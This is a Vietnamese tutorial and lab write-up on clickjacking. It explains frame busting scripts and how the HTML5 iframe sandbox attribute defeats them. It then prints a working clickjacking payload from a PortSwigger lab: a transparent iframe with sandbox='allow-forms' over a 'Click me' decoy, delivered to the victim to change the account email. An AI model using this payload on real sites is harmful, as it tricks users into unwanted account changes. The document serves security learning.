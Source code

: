 # Frame busting scripts

**Frame busting scripts** là một kỹ thuật được sử dụng để ngăn chặn các cuộc tấn công clickjacking bằng cách hạn chế khả năng nhúng (framing) các trang web vào iframe. Dưới đây là giải thích chi tiết:

**Cách hoạt động của Frame Busting Scripts**:

1. **Bảo vệ phía trình duyệt**:

- Frame busting scripts thường được triển khai trên phía trình duyệt thông qua JavaScript hoặc các tiện ích mở rộng (extensions) như **NoScript**.

- Chúng được thiết kế để ngăn chặn các cuộc tấn công clickjacking bằng cách thực hiện một hoặc nhiều hành động sau:

    - Kiểm tra và đảm bảo cửa sổ ứng dụng hiện tại là cửa sổ **top-level** (không nằm trong iframe).

    - Hiển thị tất cả các iframe để người dùng có thể nhìn thấy nội dung của chúng.

    - Ngăn người dùng click vào các iframe ẩn hoặc trong suốt.

    - Phát hiện và cảnh báo người dùng về các cuộc tấn công clickjacking tiềm ẩn.

**Hạn chế của Frame Busting Scripts**:

1. **Phụ thuộc vào trình duyệt và nền tảng**

- Các kỹ thuật frame busting thường **cụ thể cho từng trình duyệt và nền tảng**, nên không đảm bảo hoạt động nhất quán trên mọi môi trường.

2. **Dễ bị bypass**

- HTML rất linh hoạt, cho phép kẻ tấn công tìm cách **vượt qua các frame busters** bằng nhiều phương pháp khác nhau.

3. **Hạn chế JavaScript**

- Vì frame busting scripts sử dụng JavaScript, chúng có thể không hoạt động nếu:

    - **Cài đặt bảo mật trình duyệt** chặn JavaScript.

    - Trình duyệt không hỗ trợ JavaScript.

**Kỹ thuật bypass Frame Busting**

Một trong những cách kẻ tấn công sử dụng để bypass frame busting là khai thác thuộc tính **sandbox** của iframe trong HTML5.

1. **Cách thức hoạt động**

- Kẻ tấn công sử dụng thuộc tính **sandbox** trong iframe để **vô hiệu hóa khả năng kiểm tra top-level window** của frame busting scripts.

- Ví dụ: 

        <iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>

2. **Giải thích**

- Thuộc tính **sandbox** với các giá trị như **allow-forms** hoặc **allow-scripts** cho phép các hành động nhất định diễn ra trong iframe (ví dụ: gửi form, chạy script).

- Tuy nhiên, khi **không có giá trị allow-top-navigation**, iframe **không thể kiểm tra** liệu nó có phải là cửa sổ top-level hay không.

- Điều này **vô hiệu hóa** các hành vi của frame busting scripts nhưng vẫn cho phép hoạt động trong iframe.

**Tóm lại:**

Frame busting scripts là một biện pháp bảo vệ chống clickjacking nhưng có những hạn chế rõ ràng. Kẻ tấn công có thể vượt qua chúng bằng các kỹ thuật như sử dụng thuộc tính **sandbox** trong HTML5 để ngăn iframe kiểm tra top-level navigation, từ đó thực hiện các cuộc tấn công clickjacking hiệu quả.

# Lab: Clickjacking with a frame buster script
![img](14)

### Web page
![img](15)

### Solution

Login vào account được cấp wiener:peter:

![img](16)

Tiếp tục sử dụng lại payload: 

        <style>
                iframe {
                    position:relative;
                    width:700px;
                    height:500px;
                    opacity: 0.1;
                    z-index: 2;
                }
                div {
                    position:absolute;
                    top:445px;
                    left: 80px;
                    z-index: 1;
                }
        </style>
        <div>Click me</div>
        <iframe src="https://0a3e00b3040bb1f9814b61ec001800c3.web-security-academy.net/my-account?email=wiener1@test1.com" sandbox="allow-forms"></iframe>

Trong payload lần này thêm thuộc tính sandbox="allow-forms" để bypass frame buster script.

GO to exploit server và copy payload vào phần body: 

![img](17)

Store và Deliver exploit to victim.

Solved the lab!

![img](18)













